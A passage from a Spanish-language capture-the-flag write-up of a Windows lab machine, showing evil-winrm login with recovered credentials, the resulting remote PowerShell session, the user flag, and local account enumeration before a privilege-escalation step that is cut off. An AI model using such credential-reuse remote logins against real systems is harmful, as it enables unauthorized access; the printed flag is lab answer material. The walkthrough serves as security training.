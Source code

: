 Veremos los recursos compartidos por defecto, por lo que no nos sirve de mucho, pero vamos a probar a conectarnos de forma remota con dichas credenciales por si fueran las mismas mediante la herramienta `evil-winrm`.

## Evil-winrm

Como antes hemos observado el puerto de `winrm` esta abierto:

```
5985/tcp  open  http
```

Por lo que podremos realizar lo siguiente, probando dichas credenciales:

```shell
evil-winrm -i <IP> -u nica -p hardcore
```

Info:

```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\nica\Documents> whoami
win-iurf14rbvgv\nica
```

Vemos que funciona por lo que tendremos una `PowerShell` de forma remota con la maquina victima como el usuario `nica`.

Vamos a leer la flag del usuario.

> user.txt

```
HMVWINGIFT
```

## Escalate user akanksha

Vamos a ver que usuarios hay:

```powershell
net user
```

Info:

```
Cuentas de usuario de \\

-------------------------------------------------------------------------------
Administrador            akanksha                 DefaultAccount
Invitado                 nica                     WDAGUtilityAccount
El comando se ha completado con uno o m s errores.
```
